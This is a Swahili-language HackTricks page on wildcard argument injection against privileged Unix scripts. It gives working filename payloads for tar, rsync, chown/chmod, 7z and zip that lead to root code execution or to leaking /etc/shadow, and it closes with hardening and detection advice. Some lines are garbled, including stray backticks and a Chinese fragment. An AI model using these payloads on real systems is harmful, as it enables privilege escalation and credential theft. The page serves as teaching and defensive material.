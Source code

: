 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (pia inajulikana kama *glob*) **kuingiza hoja** hutokea wakati skripti yenye mamlaka inapoendesha binary ya Unix kama `tar`, `chown`, `rsync`, `zip`, `7z`, … kwa kutumia wildcard isiyo na nukuu kama `*`.
> Kwa sababu shell inapanua wildcard **kabla** ya kutekeleza binary, mshambuliaji ambaye anaweza kuunda faili katika directory ya kazi anaweza kuunda majina ya faili yanayoanza na `-` ili yaweze kutafsiriwa kama **chaguzi badala ya data**, kwa ufanisi akisafirisha bendera za kiholela au hata amri.
> Ukurasa huu unakusanya primitives muhimu zaidi, utafiti wa hivi karibuni na ugunduzi wa kisasa kwa mwaka 2023-2025.

## chown / chmod

Unaweza **kunakili mmiliki/kikundi au bits za ruhusa za faili yoyote** kwa kutumia bendera `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Wakati root baadaye anatekeleza kitu kama:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` imeingizwa, ikisababisha *faili zote* zinazolingana kurithi umiliki/ruhusa za `/root/secret``file`.

*PoC & chombo*: [`wildpwn`](https://github.com/localh0t/wildpwn) (shambulio lililounganishwa). 
Tazama pia karatasi ya jadi ya DefenseCode kwa maelezo.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Teua amri za kiholela kwa kutumia kipengele cha **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Mara tu root anapokimbia e.g. `tar -czf /root/backup.tgz *`, `shell.sh` inatekelezwa kama root.

### bsdtar / macOS 14+

`tar` ya kawaida kwenye macOS za hivi karibuni (zinazoegemea `libarchive`) *haitekelezi* `--checkpoint`, lakini bado unaweza kufikia utekelezaji wa msimbo kwa kutumia bendera **--use-compress-program** ambayo inakuwezesha kubaini compressor ya nje.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Wakati skripti yenye mamlaka inapoendesha `tar -cf backup.tar *`, `/bin/sh` itaanzishwa.

---

## rsync

`rsync` inakuwezesha kubadilisha shell ya mbali au hata binary ya mbali kupitia bendera za amri zinazaanza na `-e` au `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Ikiwa root baadaye anahifadhi saraka hiyo kwa `rsync -az * backup:/srv/`, bendera iliyoingizwa inazalisha shell yako upande wa mbali.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Hata wakati skripti yenye mamlaka *inajihifadhi* kwa kuweka awali wildcard na `--` (kuzuia uchambuzi wa chaguo), muundo wa 7-Zip unasaidia **faili za orodha za faili** kwa kuweka awali jina la faili na `@`. Kuunganisha hiyo na symlink kunakuwezesha *kuhamasisha faili za kiholela*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Ikiwa root anatekeleza kitu kama:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip itajaribu kusoma `root.txt` (→ `/etc/shadow`) kama orodha ya faili na itakataa, **ikiandika maudhui kwenye stderr**.

---

## zip

`zip` inasaidia bendera `--unzip-command` ambayo inapitishwa *kama ilivyo* kwa shell ya mfumo wakati archive itajaribiwa:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Orodha ya ziada ya binaries zinazoweza kuathiriwa na wildcard injection (orodha ya haraka ya 2023-2025)

Amri zifuatazo zimekuwa zikitumika vibaya katika CTFs za kisasa na mazingira halisi. Payload kila wakati huundwa kama *filename* ndani ya directory inayoweza kuandikwa ambayo baadaye itashughulikiwa kwa wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Soma maudhui ya faili |
| `flock` | `-c <cmd>` | Tekeleza amri |
| `git`   | `-c core.sshCommand=<cmd>` | Utekelezaji wa amri kupitia git juu ya SSH |
| `scp`   | `-S <cmd>` | Anzisha programu isiyo ya kawaida badala ya ssh |

Hizi primitives ni za kawaida kidogo kuliko *tar/rsync/zip* classics lakini zina thamani ya kuangaliwa unapofanya uwindaji.

---

## Ugunduzi & Uimarishaji

1. **Zima shell globbing** katika scripts muhimu: `set -f` (`set -o noglob`) inazuia upanuzi wa wildcard.
2. **Nukuu au kimbia** hoja: `tar -czf "$dst" -- *` si *salama* — pendelea `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Njia wazi**: Tumia `/var/www/html/*.log` badala ya `*` ili wahalifu wasiweze kuunda faili za ndugu zinazoh开始 na `-`.
4. **Haki ndogo**: Endesha kazi za backup/maintenance kama akaunti ya huduma isiyo na haki badala ya root inapowezekana.
5. **Ufuatiliaji**: Kanuni iliyojengwa awali ya Elastic *Potential Shell via Wildcard Injection* inatafuta `tar --checkpoint=*`, `rsync -e*`, au `zip --unzip-command` mara moja ikifuatwa na mchakato wa mtoto wa shell. Uchunguzi wa EQL unaweza kubadilishwa kwa EDR zingine.

---

## Marejeleo

* Elastic Security – Kanuni ya Potenshiali Shell kupitia Wildcard Injection Imegundulika (imepitiwa mara ya mwisho 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (Desemba 18 2024)

{{#include ../../banners/hacktricks-training.md}}
